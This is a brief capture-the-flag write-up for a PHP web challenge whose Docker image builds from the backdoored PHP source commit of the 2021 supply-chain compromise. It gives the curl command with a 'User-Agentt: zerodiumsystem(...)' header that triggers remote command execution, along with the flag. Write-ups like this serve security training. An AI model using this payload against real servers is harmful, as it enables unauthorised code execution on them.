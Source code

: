 ## The Wilderness (web 100 pts)  
### Challenge:  
> 就在回望一刻總有哀 世界已不再 誰偏偏一再 等待 到終於不記得等待

Mystiz likes PHP most. He has been programming in PHP at the time PHP 5 was released. Time flies and here comes PHP 8. He decided to craft a Docker image as a sandbox... What can go wrong?

<http://chalp.hkcert21.pwnable.hk:28364/>
### Attachment:
- [sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip](https://github.com/6cyril/ctf-writeups/blob/master/HKCERT%20CTF%202021/files/sea-of-thorns_e045a87b1909724e7292510354cc1f3b.zip?raw=true)

### Solution:  
* Check the Dockerfile the challenge is built on a specific PHP version

```
RUN cd /tmp && wget https://github.com/php/php-src/archive/c730aa26bd52829a49f2ad284b181b7e82a68d7d.zip \
            && unzip c730aa26bd52829a49f2ad284b181b7e82a68d7d.zip \
            && cd php-src-* && ./buildconf && ./configure --with-zlib && make -j4
```
* Googling it shows that it's a PHP version affected by recent supply chain attack and has a backdoor  
* Find link with instruction to exploit it [here](https://www.qiuye.ink/2021/04/03/php%E4%BB%BB%E6%84%8F%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C/)
* Run command `curl -H 'User-Agentt: zerodiumsystem("cat index.php");' http://chalp.hkcert21.pwnable.hk:28364/`
  
Flag: `hkcert21{vu1n3r1b1li7ie5_m1gh7_c0m3_fr0m_7h3_5upp1y_ch41n}`  
  
